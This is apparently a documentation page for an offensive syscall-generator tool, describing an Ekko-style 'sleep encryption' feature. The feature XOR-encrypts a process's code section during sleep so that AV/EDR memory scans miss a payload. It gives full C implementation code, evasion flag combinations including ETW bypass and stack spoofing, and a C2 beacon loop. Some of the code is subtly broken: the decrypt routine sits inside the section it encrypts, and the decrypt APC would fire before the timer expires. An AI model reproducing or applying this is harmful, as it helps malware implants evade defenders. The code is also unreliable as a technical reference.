

## Overview

Sleep Encryption (inspired by **Ekko** by C5pider) is a memory obfuscation technique that encrypts your process's `.text` section during sleep periods, making it invisible to memory scanners. When the sleep timer expires, memory is automatically decrypted before execution resumes.

<Tip>
**Use case**: Defeats periodic memory scans by AV/EDR that look for malicious signatures while your payload is idle.
</Tip>

## The Problem: Memory Scanning

### Periodic Memory Scanners

Modern EDRs periodically scan process memory for:
- Known malware signatures (YARA rules)
- Suspicious code patterns (syscall stubs, shellcode)
- Unmapped executable pages (RWX regions)
- Modified PE sections (integrity checks)

**Typical scan interval**: Every 5-30 seconds

### Traditional Sleep is Vulnerable

```c
// Your payload is idle but still in memory — fully scannable
Sleep(30000);  // 30 seconds of exposure

// During this time:
// - .text section contains syscall stubs (detectable)
// - Strings are plaintext ("NtAllocateVirtualMemory")
// - Signatures match known tools (SysWhispers)
```

<Warning>
**Long-running C2 beacons** that sleep for minutes between callbacks are especially vulnerable — EDR has plenty of time to scan.
</Warning>

## How Sleep Encryption Works

### High-Level Flow



### Step-by-Step Breakdown

<Steps>
  <Step title="Generate Random XOR Key">
    Use `RDTSC` (CPU timestamp counter) for entropy:
    
    ```c
    DWORD64 key = __rdtsc();  // High-resolution counter
    key ^= (key >> 32);        // Mix upper/lower 32 bits
    ```
    
    Why RDTSC?
    - No API call (no ntdll hook)
    - Non-deterministic (varies per execution)
    - Fast (single instruction)
  </Step>

  <Step title="Locate .text Section">
    Find the executable code section in our own PE:
    
    ```c
    PVOID pBase = GetModuleHandleA(NULL);  // Our PE base
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)pBase;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((PBYTE)pBase + dos->e_lfanew);
    
    PIMAGE_SECTION_HEADER sections = IMAGE_FIRST_SECTION(nt);
    for (DWORD i = 0; i < nt->FileHeader.NumberOfSections; i++) {
        if (strcmp((char*)sections[i].Name, ".text") == 0) {
            PVOID textAddr = (PBYTE)pBase + sections[i].VirtualAddress;
            SIZE_T textSize = sections[i].Misc.VirtualSize;
            // Found it!
        }
    }
    ```
  </Step>

  <Step title="Change Memory Protection to RW">
    .text is normally RX (read+execute). We need RW to modify:
    
    ```c
    ULONG oldProtect;
    SW4_NtProtectVirtualMemory(
        GetCurrentProcess(),
        &textAddr,
        &textSize,
        PAGE_READWRITE,  // RX → RW
        &oldProtect
    );
    ```
  </Step>

  <Step title="XOR-Encrypt .text">
    Encrypt the entire executable section:
    
    ```c
    PDWORD64 p = (PDWORD64)textAddr;
    SIZE_T qwords = textSize / 8;
    
    for (SIZE_T i = 0; i < qwords; i++) {
        p[i] ^= key;  // XOR each 8-byte chunk
    }
    
    // Handle remaining bytes (textSize % 8)
    PBYTE tail = (PBYTE)&p[qwords];
    for (SIZE_T i = 0; i < (textSize % 8); i++) {
        tail[i] ^= ((PBYTE)&key)[i % 8];
    }
    ```
    
    **Result**: .text is now encrypted garbage. Signature scans will fail.
  </Step>

  <Step title="Create Waitable Timer">
    Set up a kernel timer to fire after the sleep duration:
    
    ```c
    HANDLE hTimer = NULL;
    SW4_NtCreateTimer(&hTimer, TIMER_ALL_ACCESS, NULL, SynchronizationTimer);
    
    LARGE_INTEGER dueTime;
    dueTime.QuadPart = -(LONGLONG)sleepMs * 10000LL;  // Negative = relative time
    
    // Queue APC to run when timer expires
    SW4_NtSetTimer(
        hTimer,
        &dueTime,
        NULL,  // No APC routine here — we'll queue it separately
        NULL,
        FALSE,
        0,
        NULL
    );
    ```
  </Step>

  <Step title="Queue APC to Decrypt">
    Register an APC (Asynchronous Procedure Call) that will decrypt .text:
    
    ```c
    typedef struct _DECRYPT_CONTEXT {
        PVOID   TextAddr;
        SIZE_T  TextSize;
        DWORD64 Key;
        ULONG   OldProtect;
    } DECRYPT_CONTEXT;
    
    DECRYPT_CONTEXT* ctx = malloc(sizeof(DECRYPT_CONTEXT));
    ctx->TextAddr = textAddr;
    ctx->TextSize = textSize;
    ctx->Key = key;
    ctx->OldProtect = oldProtect;
    
    SW4_NtQueueApcThread(
        GetCurrentThread(),
        (PPS_APC_ROUTINE)SW4_DecryptApc,
        ctx,   // APC argument 1
        NULL,  // APC argument 2
        NULL   // APC argument 3
    );
    ```
  </Step>

  <Step title="Enter Alertable Sleep">
    Sleep in alertable state so the APC can fire:
    
    ```c
    SW4_NtWaitForSingleObject(
        hTimer,
        TRUE,  // Alertable — APCs will run
        NULL   // Infinite timeout
    );
    
    // When timer expires, APC runs automatically
    ```
  </Step>

  <Step title="APC Decrypts Memory">
    The queued APC callback decrypts .text:
    
    ```c
    VOID NTAPI SW4_DecryptApc(
        PVOID Arg1,  // DECRYPT_CONTEXT*
        PVOID Arg2,
        PVOID Arg3
    ) {
        DECRYPT_CONTEXT* ctx = (DECRYPT_CONTEXT*)Arg1;
        
        // XOR-decrypt (XOR is reversible: A ^ K ^ K = A)
        PDWORD64 p = (PDWORD64)ctx->TextAddr;
        SIZE_T qwords = ctx->TextSize / 8;
        for (SIZE_T i = 0; i < qwords; i++) {
            p[i] ^= ctx->Key;
        }
        
        // Restore original protection (RW → RX)
        SIZE_T size = ctx->TextSize;
        SW4_NtProtectVirtualMemory(
            GetCurrentProcess(),
            &ctx->TextAddr,
            &size,
            ctx->OldProtect,
            &ctx->OldProtect
        );
        
        free(ctx);
    }
    ```
  </Step>

  <Step title="Execution Resumes">
    After APC completes, `NtWaitForSingleObject` returns and execution continues:
    
    ```c
    // .text is now decrypted and executable again
    SW4_NtClose(hTimer);
    return;  // Back to normal execution
    ```
  </Step>
</Steps>

## Implementation

### Full C Code

```c
// APC decrypt callback context
typedef struct _SW4_SLEEP_CONTEXT {
    PVOID   TextBase;
    SIZE_T  TextSize;
    DWORD64 XorKey;
    ULONG   OriginalProtect;
} SW4_SLEEP_CONTEXT;

// APC routine that decrypts .text
VOID NTAPI SW4_DecryptApc(
    PVOID Context,
    PVOID SystemArgument1,
    PVOID SystemArgument2
) {
    SW4_SLEEP_CONTEXT* ctx = (SW4_SLEEP_CONTEXT*)Context;
    
    // XOR-decrypt
    PDWORD64 p = (PDWORD64)ctx->TextBase;
    SIZE_T qwords = ctx->TextSize / 8;
    for (SIZE_T i = 0; i < qwords; i++) {
        p[i] ^= ctx->XorKey;
    }
    
    // Handle tail bytes
    PBYTE tail = (PBYTE)&p[qwords];
    SIZE_T tailSize = ctx->TextSize % 8;
    for (SIZE_T i = 0; i < tailSize; i++) {
        tail[i] ^= ((PBYTE)&ctx->XorKey)[i];
    }
    
    // Restore execute permission
    PVOID base = ctx->TextBase;
    SIZE_T size = ctx->TextSize;
    ULONG tmp;
    SW4_NtProtectVirtualMemory(
        GetCurrentProcess(),
        &base, &size,
        ctx->OriginalProtect,
        &tmp
    );
    
    free(ctx);
}

// Main sleep encryption function
VOID SW4_SleepEncrypt(DWORD milliseconds) {
    // 1. Generate XOR key
    DWORD64 key = __rdtsc();
    key ^= (key >> 32);
    
    // 2. Locate .text section
    PVOID pBase = GetModuleHandleA(NULL);
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)pBase;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)((PBYTE)pBase + dos->e_lfanew);
    
    PVOID textBase = NULL;
    SIZE_T textSize = 0;
    PIMAGE_SECTION_HEADER sections = IMAGE_FIRST_SECTION(nt);
    
    for (DWORD i = 0; i < nt->FileHeader.NumberOfSections; i++) {
        if (memcmp(sections[i].Name, ".text", 5) == 0) {
            textBase = (PBYTE)pBase + sections[i].VirtualAddress;
            textSize = sections[i].Misc.VirtualSize;
            break;
        }
    }
    if (!textBase) return;  // No .text section?
    
    // 3. Change to RW
    ULONG oldProtect;
    PVOID base = textBase;
    SIZE_T size = textSize;
    SW4_NtProtectVirtualMemory(
        GetCurrentProcess(),
        &base, &size,
        PAGE_READWRITE,
        &oldProtect
    );
    
    // 4. XOR-encrypt
    PDWORD64 p = (PDWORD64)textBase;
    SIZE_T qwords = textSize / 8;
    for (SIZE_T i = 0; i < qwords; i++) {
        p[i] ^= key;
    }
    PBYTE tail = (PBYTE)&p[qwords];
    for (SIZE_T i = 0; i < (textSize % 8); i++) {
        tail[i] ^= ((PBYTE)&key)[i];
    }
    
    // 5. Create timer
    HANDLE hTimer = NULL;
    SW4_NtCreateTimer(&hTimer, TIMER_ALL_ACCESS, NULL, SynchronizationTimer);
    
    LARGE_INTEGER dueTime;
    dueTime.QuadPart = -(LONGLONG)milliseconds * 10000LL;
    
    // 6. Set up APC context
    SW4_SLEEP_CONTEXT* ctx = malloc(sizeof(SW4_SLEEP_CONTEXT));
    ctx->TextBase = textBase;
    ctx->TextSize = textSize;
    ctx->XorKey = key;
    ctx->OriginalProtect = oldProtect;
    
    // 7. Queue decrypt APC
    SW4_NtQueueApcThread(
        GetCurrentThread(),
        (PPS_APC_ROUTINE)SW4_DecryptApc,
        ctx, NULL, NULL
    );
    
    // 8. Set timer
    SW4_NtSetTimer(hTimer, &dueTime, NULL, NULL, FALSE, 0, NULL);
    
    // 9. Sleep (alertable)
    SW4_NtWaitForSingleObject(hTimer, TRUE, NULL);
    
    // 10. Cleanup
    SW4_NtClose(hTimer);
}
```

## Usage

### Enable Sleep Encryption

```bash
# Generate with sleep encryption support
python syswhispers.py --preset stealth --sleep-encrypt

# Combine with other evasion techniques
python syswhispers.py --preset stealth \
    --resolve freshycalls \
    --method randomized \
    --sleep-encrypt \
    --obfuscate \
    --encrypt-ssn
```

### In Your Code

```c
#include "SW4Syscalls.h"

int main(void) {
    SW4_Initialize();
    
    // Do initial work
    PVOID buffer = NULL;
    SIZE_T size = 0x1000;
    SW4_NtAllocateVirtualMemory(
        GetCurrentProcess(), &buffer, 0, &size,
        MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE
    );
    
    // Encrypt memory during long sleep
    printf("[*] Sleeping for 30 seconds (memory encrypted)...\n");
    SW4_SleepEncrypt(30000);  // .text encrypted during entire duration
    printf("[+] Awake (memory decrypted)\n");
    
    // Continue execution
    // ...
    
    return 0;
}
```

### C2 Beacon Example

```c
while (TRUE) {
    // Check in with C2 server
    BOOL hasTask = C2_CheckIn();
    
    if (hasTask) {
        // Execute task
        ExecuteTask();
    }
    
    // Sleep until next beacon (encrypted)
    DWORD jitter = (rand() % 10000) + 5000;  // 5-15 seconds
    SW4_SleepEncrypt(jitter);
}
```

## Advantages

<CardGroup cols={2}>
  <Card title="Defeats Signature Scans" icon="shield">
    Encrypted .text doesn't match YARA rules or known patterns
  </Card>
  <Card title="Automatic Decryption" icon="clock">
    Timer + APC ensures execution resumes correctly without manual intervention
  </Card>
  <Card title="No External Keys" icon="key">
    XOR key is generated on-the-fly via RDTSC — nothing stored on disk
  </Card>
  <Card title="Transparent" icon="eye-slash">
    Drop-in replacement for `Sleep()` — no code changes needed
  </Card>
</CardGroup>

## Limitations

### 1. Short Sleep Periods

If sleep duration < EDR scan interval, encryption provides minimal benefit:

```c
SW4_SleepEncrypt(100);  // 100ms — EDR unlikely to scan during this window
```

**Recommendation**: Use only for sleeps ≥1 second.

### 2. Memory Writes During Encryption

If .text is modified while encrypted (impossible since we're sleeping, but theoretically):
- Corruption on decrypt
- Access violations

**Protection**: We're sleeping — no code execution occurs.

### 3. Thread Suspension

If EDR suspends our thread and scans memory:
- .text is encrypted → scan fails ✅
- But EDR sees non-executable .text section (suspicious)

### 4. Performance Overhead

Encryption/decryption cost:

| .text Size | Encrypt Time | Decrypt Time |
|------------|:------------:|:------------:|
| 10 KB      | &lt;1 ms        | &lt;1 ms        |
| 100 KB     | ~2 ms        | ~2 ms        |
| 1 MB       | ~15 ms       | ~15 ms       |

**Impact**: Negligible for typical payloads (10-100 KB).

## Detection Vectors

### What EDRs Can See

1. **NtProtectVirtualMemory (RX → RW → RX)**: Suspicious permission changes
2. **NtQueueApcThread**: Self-queuing APCs are uncommon
3. **Memory scanning during sleep**: .text is encrypted (good!)
4. **Timer objects**: `NtCreateTimer` + alertable wait pattern

### Telemetry Example

```
EDR Log:
[12:34:56] Process: malware.exe (PID 1234)
[12:34:56] NtProtectVirtualMemory: 0x400000 → PAGE_READWRITE
[12:34:56] NtQueueApcThread: Target=Self, Routine=0x401234
[12:34:56] NtWaitForSingleObject: Alertable=TRUE
[12:34:56] Memory Scan: .text section = [encrypted gibberish]
[12:35:26] NtProtectVirtualMemory: 0x400000 → PAGE_EXECUTE_READ
```

**Analysis**: Pattern is distinctive but memory scan fails.

### Mitigation Strategies

<Steps>
  <Step title="Combine with other evasion">
    Stack spoofing + ETW bypass reduce telemetry:
    ```bash
    python syswhispers.py --sleep-encrypt --stack-spoof --etw-bypass
    ```
  </Step>

  <Step title="Vary sleep durations">
    Random jitter makes pattern less predictable:
    ```c
    DWORD sleep = (rand() % 10000) + 5000;  // 5-15 seconds
    SW4_SleepEncrypt(sleep);
    ```
  </Step>

  <Step title="Don't over-use">
    Reserve for long sleeps (>5 seconds). Short delays use regular `Sleep()`:
    ```c
    if (sleepTime > 5000) {
        SW4_SleepEncrypt(sleepTime);
    } else {
        Sleep(sleepTime);
    }
    ```
  </Step>
</Steps>

## Comparison with Alternatives

| Technique | .text Encrypted | Auto-Decrypt | Performance | Complexity |
|-----------|:---------------:|:------------:|:-----------:|:----------:|
| **Ekko/Sleep Encryption** | ✅ | ✅ | Medium (~4ms overhead) | Medium |
| Manual Encrypt/Decrypt | ✅ | ❌ | Low | Low |
| Code Cave Hiding | ❌ | N/A | Low | High |
| Memory Stomping | ✅ | Manual | Low | High |
| Process Hollowing | ✅ | Manual | High | Very High |

## Further Reading

<CardGroup cols={2}>
  <Card title="Ekko Original Research" icon="link" href="https://github.com/Cracked5pider/Ekko">
    C5pider's original Ekko sleep obfuscation
  </Card>
  <Card title="Anti-Debug Checks" icon="bug" href="/api/evasion-helpers#anti-debug">
    Combine with anti-debugging for layered defense
  </Card>
  <Card title="Stack Spoofing" icon="layer-group" href="/advanced/stack-spoofing">
    Hide call stack during execution
  </Card>
  <Card title="Alertable I/O" icon="book" href="https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls">
    Microsoft docs on APCs
  </Card>
</CardGroup>